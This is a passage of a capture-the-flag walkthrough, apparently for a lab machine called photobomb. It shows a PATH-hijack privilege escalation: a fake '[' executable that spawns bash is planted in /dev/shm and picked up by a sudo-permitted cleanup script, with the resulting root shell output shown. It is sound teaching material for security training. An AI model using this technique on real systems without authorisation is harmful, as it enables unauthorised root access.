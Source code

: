 ```bash
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:fe94:fdd9/64 scope link 
       valid_lft forever preferred_lft forever
<HERE IS THE ROOT FLAG>

```

### Option 2 path hijack  `[`

The `[` command is not just a special character in Bash, but it is actually a binary executable located at `/usr/bin/[`. This can be verified by running the `which` and `file` commands on it.

```bash
wizard@photobomb:/opt$ which [
which [
/usr/bin/[
wizard@photobomb:/opt$ file /usr/bin/[
file /usr/bin/[
/usr/bin/[: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=99cfd563b4850f124ca01f64a15ec24fd8277732, for GNU/Linux 3.2.0, stripped
wizard@photobomb:/opt$ 

```

In Bash, `[` is an alias for the `test` command, which is used to check various conditions such as file existence, file type, string length, etc. The syntax for using `[` requires a space after the opening bracket and before the closing bracket, just like any other command in Bash. Forgetting the space can result in syntax errors. 

We should create a file `[` with a bash payload in it so we can run our own commands..
```bash
wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > [
echo -e '#!/bin/bash\n\nbash' > [
```
Then we should set the execute permissions on the file.
```bash
wizard@photobomb:/dev/shm$ chmod +x [
chmod +x [
```
The last steps is to set the PATH to the current directory and run the bash script with sudo permission. Now we are able to run commands as root and capture the flag.
```bash
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
hostname
photobomb
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:fd:d9 brd ff:ff:ff:ff:ff:ff
    inet 10.129.228.60/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 3116sec preferred_lft 3116sec
    inet6 dead:beef::250:56ff:fe94:fdd9/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:fe94:fdd9/64 scope link 
       valid_lft forever preferred_lft forever
```